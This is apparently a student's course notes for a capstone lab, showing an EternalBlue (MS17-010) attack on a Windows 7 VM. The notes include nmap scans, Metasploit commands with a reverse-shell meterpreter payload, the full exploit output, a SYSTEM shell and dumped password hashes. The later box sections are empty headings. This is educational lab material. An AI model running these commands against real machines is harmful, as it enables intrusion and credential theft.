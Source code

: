 # New Capstone

## Introduction

Two other courses on Windows & Linux Privilege Escalation.

New capstone boxes are available here: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH

## Set Up - Blue

- Import `Blue.ovf` in vmware, set the network settings to NAT, allow 4 GB to memory if you can.
- access as an admin to get the ip via `cmd` and `ipconfig`.
- on your kali, `ping 192.168.92.130` to check if you see it.

## Walkthrough - Blue

### Scanning

- scanning with `nmap -T4 -p- -A 192.168.92.130`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 08:32 EDT
Nmap scan report for 192.168.92.130
Host is up (0.00070s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:C8:FA:61 (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:c8:fa:61 (VMware)
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-22T08:33:49-04:00
| smb2-time:
|   date: 2024-07-22T12:33:50
|_  start_date: 2024-07-22T18:09:06

TRACEROUTE
HOP RTT     ADDRESS
1   0.70 ms 192.168.92.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.28 seconds
```

Notes

```
 Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1) + port 445 open: MS17-010 (EternalBlue) exploit
```

### Check for vulnerability

We can use nmap or msfconsole auxiliary scan (search for eternal blue)

```
nmap --script smb-vuln-ms17-010 -p445 192.168.92.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 08:59 EDT
Nmap scan report for 192.168.92.130
Host is up (0.00060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:C8:FA:61 (VMware)

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
```

### Exploit

- Launch Metasploit: `msfconsole`
- Search for the MS17-010 Exploit: `search ms17-010`
- Select the Exploit: `use exploit/windows/smb/ms17_010_eternalblue`
- Set the Target IP: `set RHOSTS 192.168.92.130`
- Set the Payload: `set PAYLOAD windows/x64/meterpreter/reverse_tcp` (this is an enterprise machine)
- Run the Exploit: `exploit` (or `check` to only confirm the vulnerability, you don't want to exploit certain sensitive targets)

```
exploit

[*] Started reverse TCP handler on 192.168.92.128:4444
[*] 192.168.92.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.92.130:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.92.130:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.92.130:445 - The target is vulnerable.
[*] 192.168.92.130:445 - Connecting to target for exploitation.
[+] 192.168.92.130:445 - Connection established for exploitation.
[+] 192.168.92.130:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.92.130:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.92.130:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.92.130:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service
[*] 192.168.92.130:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1
[+] 192.168.92.130:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.92.130:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.92.130:445 - Sending all but last fragment of exploit packet
[*] 192.168.92.130:445 - Starting non-paged pool grooming
[+] 192.168.92.130:445 - Sending SMBv2 buffers
[+] 192.168.92.130:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.92.130:445 - Sending final SMBv2 buffers.
[*] 192.168.92.130:445 - Sending last fragment of exploit packet!
[*] 192.168.92.130:445 - Receiving response from exploit packet
[+] 192.168.92.130:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.92.130:445 - Sending egg to corrupted connection.
[*] 192.168.92.130:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 192.168.92.130
[*] Meterpreter session 1 opened (192.168.92.128:4444 -> 192.168.92.130:49180) at 2024-07-22 09:03:05 -0400
[+] 192.168.92.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.92.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.92.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

Results:

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege
```

Hashdump to get admin hash.

```
hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

For manual exploitation, look for `eternalbue github`, look for a detailed walkthrough. https://github.com/3ndG4me/AutoBlue-MS17-010

## Set Up - Academy

## Walkthrough - Academy

## Walkthrough - Dev

## Walkthrough - Butler

## Walkthrough - Blackpearl
